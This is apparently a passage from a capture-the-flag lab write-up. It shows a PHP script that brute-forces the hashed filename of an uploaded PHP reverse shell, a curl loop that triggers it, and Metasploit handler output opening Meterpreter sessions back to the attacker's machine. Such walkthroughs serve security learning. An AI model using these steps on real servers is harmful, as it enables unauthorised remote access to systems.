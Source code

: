    Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > run
{{< / highlight >}}

run/exploit here starts the handler listening

### Brute Force the Filename

{{< highlight markdown >}}
root@kali:~/hackinos# cat fname.php 
for ($n = 1; $n <= 100 ; $n++ ) {
        $target_file = "uploads/". md5(basename("gifrev.php" . $n));
        echo "$target_file" . ".php" . "\n";
}
{{< / highlight >}}

So doing this will give us a list of 100 relative URLs:

`php -r $(cat fname.php)`

and doing this will curl all of them; when we hit the one that was generated with rand(1,100), the curl will succeed, and execute our php reverse shell payload

`for u in $(php -r "$(cat fname.php)" ) ; do curl target:8000/${u} ; done`

### Getting a Meterpreter Session

{{< highlight markdown >}}
msf5 exploit(multi/handler) > run                                                            
[*] Started reverse TCP handler on 192.168.167.130:4444                                                                                                                                 
[*] Sending stage (38247 bytes) to 192.168.167.132                                                                                                                                      
[*] Meterpreter session 10 opened (192.168.167.130:4444 -> 192.168.167.132:51206) at 2019-04-28 13:38:48 -0400                                                                                                                                                                                                                                                   
meterpreter > getuid                                                                                                                                                                    
Server username: www-data (33)                                                                                                                                                          
                                                                                                                                                                                                                                                                                                                                                           
meterpreter > bg                                                                                                                                                                        
[*] Backgrounding session 10... 
msf5 exploit(multi/handler) > 
msf5 exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                                                 Connection
  --  ----  ----                   -----------                                                 ----------
  2         meterpreter x86/linux  uid=1000, gid=1000, euid=1000, egid=1000 @ 192.168.167.132  192.168.167.130:4444 -> 192.168.167.132:54790 (192.168.167.132)
  9         meterpreter php/linux  www-data (33) @ 1afdd1f6b82c                                192.168.167.130:4444 -> 192.168.167.132:50294 (192.168.167.132)
  10        meterpreter php/linux  www-data (33) @ 1afdd1f6b82c                                192.168.167.130:4444 -> 192.168.167.132:51206 (192.168.167.132)
